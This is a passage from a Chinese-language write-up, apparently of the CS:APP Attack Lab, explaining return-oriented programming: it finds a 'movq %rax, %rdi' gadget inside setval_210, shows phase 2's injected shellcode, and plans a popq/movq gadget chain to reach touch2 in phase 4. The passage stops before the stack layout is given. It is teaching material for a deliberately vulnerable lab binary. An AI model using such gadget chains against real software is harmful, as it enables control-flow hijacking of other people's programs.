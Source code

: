 它的汇编代码字节级表示为：

```shell
0000000000400f15 <setval_210>:
	400f15: c7 07 d4 48 89 c7 	movl $0xc78948d4,(%rdi)
	400f1b: c3 					retq
```

查表可知，取其中一部分字节序列 48 89 c7 就表示指令`movq %rax, %rdi`，这整句指令的地址为`0x400f15`，于是从`0x400f18`开始的代码就可以变成下面这样：

```assembly
movq %rax, %rdi
ret
```

这个小片段就可以作为一个`gadget`为我们所用。

其它一些我们可以利用的代码都在文件`farm.c`中展示了出来

## Phase 4

### 分析

本题的任务与`Phase 2`相同，都是要求返回到`touch2`函数，`phase 2`中用到的注入代码为：

```assembly
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

我们根本不可能找到这种带特定立即数的`gadget`，只能思考其他办法。

首先，要做的是把 cookie 赋值给参数寄存器`%rdi`，考虑将 cookie 放在栈中，再用指令：

```assembly
pop %rdi
ret
```

就能实现参数的赋值了，当`ret`后，从栈中取出来的程序地址再设置为`touch2`的地址就能成功解决本题

但是后来发现在`farm`中找不到这条指令的`gadget`，经过多次尝试，只好用其他寄存器进行中转，考虑用两个`gadget`

```assembly
popq %rax
ret
###############
movq %rax, %rdi
ret
```

### 栈帧讲解

根据我们的思路，栈帧情况如下：
